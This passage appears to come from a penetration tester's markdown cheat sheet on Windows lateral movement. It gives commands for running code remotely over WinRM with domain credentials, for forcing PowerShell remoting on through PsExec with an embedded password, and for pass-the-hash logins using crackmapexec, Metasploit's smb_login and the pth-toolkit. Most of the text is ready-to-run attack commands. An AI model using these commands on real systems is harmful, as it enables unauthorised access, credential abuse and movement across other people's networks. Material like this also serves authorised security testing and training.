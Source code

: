 ```

NOTE: *This adds a wildcard to the trustedhosts setting. Be wary of what that entails. Note: I also had to change the network type on my attack machine from "Public" to "Work" network. YMMV*

###### 2. test whether target machine is configured for WinRM ######

```test-WSMan $computername```

###### 3. Execute command on target over WinRM ######

```Invoke-Command -Computer ordws01 -ScriptBlock {ipconfig /all} -credential CSCOU\jarrieta ```

OR...

Drop into an interactive PS sessions:

```Enter-PSSession -Computer $pcname -credential $domain\$user```

##### Force WinRM Open #####

NOTE: Not recommended...

```PS C:\tools\SysinternalsSuite> .\PsExec.exe \\$pcName -u $domain\$user -p nastyCutt3r -h -d powershell.exe "enable-psremoting force"```


## <----- Practical Usage of NTLM Hashes (PTH) -----> ##

##### Test Logins with Hashes #####

###### CME ######

```cme smb 192.168.0/24 -u $user -H $nt_or_ntlm```

###### MSF smb_login ######

>> Metasploit's smb_login can also be used with hashes to test credentials and see if a user is an Administrator. Metasploit requires the full NTLM hash, however, so you have to add the "blank" LM portion to the beginning:

```aad3b435b51404eeaad3b435b51404ee == empty hash```

```set smbpass aad3b435b51404eeaad3b435b51404ee:$knownHash```

##### pth-toolkit and Impacket #####

https://github.com/byt3bl33d3r/pth-toolkit

> "pth" suite contains a bunch of programs that have been patched to support authenticating with hashes:
> They're the same, we're just using a Hash instead of a plaintext password now.

NOTE: *The pth suite uses the format DOMAIN/user%hash:*

Example: ```aad3b435b51404eeaad3b435b51404ee:$knownHash```

```pth-net```  

```pth-rpcclient```  

```pth-smbclient```  

```pth-smbget```  

```pth-sqsh```  

```